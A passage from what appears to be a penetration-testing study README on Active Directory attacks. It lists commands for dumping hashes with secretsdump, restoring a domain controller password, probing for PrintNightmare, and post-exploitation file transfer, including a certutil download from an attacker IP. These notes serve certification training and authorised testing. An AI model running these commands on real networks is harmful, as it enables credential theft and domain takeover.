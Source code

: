 2.Now ,we need to get 'plain_password_hex' by using hash in below format.
```bash
secretsdump.py administrator@192.168.138.132 --hashes [LM:NTLM_HASH]
```

3.Now, we use script from Github as below
```bash
python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 192.168.138.132 -hexpass [HEX_VALUE]
```


CVE-2021-1675=> This is **PrintNightmare**

URL=https://github.com/cube0x0/CVE-2021-1675

How to check this=> For this, we use rpcdump.py script
```bash
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'
```

# AD Case Studies

Case 1: https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
Case 2: https://tcm-sec.com/pentest-tales-002-digging-deep

# Post Exploitation

File Transfers=>

1.Powershell for Windows
```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2.Open HTTP server to share files on directory
```bash
python3 -m http.server --bind [your_ip] [port]
```

# Result
[Click me!](https://www.linkedin.com/posts/dr4ks_pjpt-tcmsecurity-activity-7096676619943034880-t1mH/)
## Authors
- [@dr4ks](https://www.github.com/Dr4ks)
